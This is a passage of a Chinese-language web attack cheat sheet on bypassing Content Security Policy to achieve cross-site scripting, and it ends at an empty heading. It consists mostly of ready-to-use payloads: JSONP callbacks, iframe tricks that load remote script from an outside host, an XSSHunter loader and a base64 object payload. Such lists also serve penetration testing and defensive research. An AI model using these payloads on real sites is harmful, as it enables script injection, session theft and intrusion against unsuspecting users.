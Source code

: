 ## 绕过CSP

检查 CSP 是否开启 [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) 
 [如何使用 Google 的 CSP Evaluator 绕过 CSP](https://websecblog.com/vulns/google-csp-evaluator/)

### 使用 Google 的 JSONP 绕过 CSP (Trick by [@apfeifer27](https://twitter.com/apfeifer27))

//google.com/complete/search?client=chrome&jsonp=alert(1);

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

更多JSONP端点参考：
* [/Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)
* [JSONBee/jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

### 绕过CSP by [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

适用于CSP，如： `Content-Security-Policy: default-src 'self' 'unsafe-inline';`, ```
```
http://hsts.pro/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;
```

```js
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

### 绕过CSP by [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

```js
// 使用Inline和Eval绕过CSP

d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

### 绕过CSP by [@akita_zen](https://twitter.com/akita_zen)

适用于CSP，如：`script-src self`

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### 绕过CSP by [@404death](https://twitter.com/404death/status/1191222237782659072)

